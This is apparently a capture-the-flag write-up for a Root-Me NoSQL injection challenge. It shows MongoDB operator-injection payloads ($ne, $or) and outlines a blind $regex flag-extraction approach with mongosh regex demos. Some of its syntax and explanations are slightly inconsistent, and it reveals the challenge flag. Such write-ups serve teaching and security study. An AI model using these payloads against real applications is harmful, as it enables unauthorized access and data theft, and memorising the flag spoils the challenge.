




# NoSQL injection - Authentication

**Point**: 35 Points

**Title**: Find me

**Description**: Find the username of the hidden user.

## Analysis (This just for newbie):

We again have a form that needs to be bypassed.

<p align="center"></p>

Skip some challenge's names, I should have a quick test with simple payload:

```
?chall_name[$ne]=1&flag[$ne]=1
```

<p align="center"></p>

"Associative array" techniques may not work.

Now, focus on the obvious condition that we know the correct "challenges", 1 field in this form. So with this data, I straightforwardly think of constructing a payload that use "OR" operator  to bypass as normal-case SQL Injection. I learn that from the [provided document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*zh58dy*_ga*MTU3NDQyNTQwNy4xNjYyMTI2NjEx*_ga_SRYSKX09J7*MTY2MjEzMjQxNC4xMi4wLjE2NjIxMzI0MjYuMC4wLjA.). Payload:

```
chall_name=bluebox", $or: [ {}, { "1":"1&flag=" } ], $comment:"successful MongoDB injection"
```

MongoDB execute the query look like this:

```mongodb
db.chall.find({"chall_name": "injection1", "flag": "injection2")
```

After we inject malicious command:

```mongodb
db.chall.find({"chall_name": "bluebox", $or: [ {}, { "1":"1", "flag": "" } ], $comment:"Hacked by khangtictoc"")
```

This is equivalent to `SELECT * FROM chall WHERE chall_name="bluebox" OR (True AND ("1"="1" AND flag="")) // Hacked by khangtictoc`. We must know a specific `chall_name` to conduct attack, this was given with "bluebox, zeusbot, nosqlblind" for us to test.

But, unfortunately:

<p align="center"></p>

Whoops! Maybe the backend handles this too. 

So we really lost our track? It takes much time to test more and I surprisingly notice that there is a vulnerability in `flag` box. They do not apply filter on this compared to `chall_name` one. Now things are done, combining with the title "Blind SQL" and our goal is to check the correct flag.

To achieve the goal, I write a **Python** code and use `$regex` to make a comparison with actual flag's pattern. I check printable characters except some special cases and loop on each flag's position. I let my code [here](solve.py)

## Solution:

Run `solve.py` *(Make sure to use a VPN or fixed IPv6 address).* The code content I have explained clearly with comments.

<p align="center"></p>

A little hard-working. Right?

## More Explanations:

> Note: This only for deeper understanding

`$regex` is the most best-fit way I could come up with. Besides, there are some special chars that we should avoid when comparing like ['*' , '+', '.', '?', '|', '&', '$']. This will make the regex pattern work as the way we do not want or predict.

> Note: Regex in MongoDB acts a little different when compared to others.

Try some examples with `mongosh` (MongoShell):

`Wrong match case with first correct characters or strings`. The case includes ['*' , '+', '.', '?', '|']

```shell
test> use test
already on db test
test> db.test.insertOne({"flag": "3iteasytomisunderstanding"})
{
  acknowledged: true,
  insertedId: ObjectId("63121aef6fe86849cca910f6")
}
test> db.test.find({"flag": {$regex: "^3*"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3+"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3."}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3?"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3|"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
```

`Wrong match case when ending the searching`. The case includes ['&'], this shows the mark of ending the pattern, so it's still matched.

```shell
test> db.test.insertOne({"flag": "3@sY_n0_5q7_1nj3c710n"})
{
  acknowledged: true,
  insertedId: ObjectId("63122a536fe86849cca910f7")
}
test> db.test.find({"flag": {$regex: "^3@sY_n0_5q7_1nj3c710n$$$$$$$$$$$$$$$$$$$$"}})
```

Flag: **3@sY_n0_5q7_1nj3c710n**
